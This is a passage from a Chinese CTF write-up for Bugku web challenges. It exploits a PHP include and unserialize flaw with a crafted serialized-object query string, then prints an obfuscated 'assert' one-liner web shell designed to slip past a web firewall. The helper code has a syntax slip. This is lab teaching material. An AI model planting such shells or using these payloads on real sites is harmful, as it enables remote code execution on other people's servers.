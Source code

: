 ```php
}else{
    echo "you are not the number of bugku ! ";
}

?>

<!--
$user = $_GET["txt"];
$file = $_GET["file"];
$pass = $_GET["password"];

if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){
    echo "hello admin!<br>";
    include($file); //hint.php
}else{
    echo "you are not admin ! ";
}
 -->
```

 显然这里不让我们再file中输入flag文件名。但是Flag类在构造对象的时候会执行构造函数，这个时候
 有机会echo出我们要的文件。但是要怎么利用password来传入我们要的对象呢？看到了unseialize反序列函数
 这个函数可以把对象从序列化的字符串还原出对象来.在PHP中,序列化用于存储或传递*PHP 的值*的过程中,同时不丢失其类型和结构

 所以我们编写如下代码：
```php
<?php
Class Flag{
  public $file='flag.php'
}
$a = new Flag;
echo serialize($a);

?>
```

输出O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

于是传入参数index.php?txt=welcome to the bugkuctf&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

得到flag

## 过狗一句话

刚开始给我们的php代码：

```php
<?php $poc="a#s#s#e#r#t";
$poc_1=explode("#",$poc);
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
?>
```
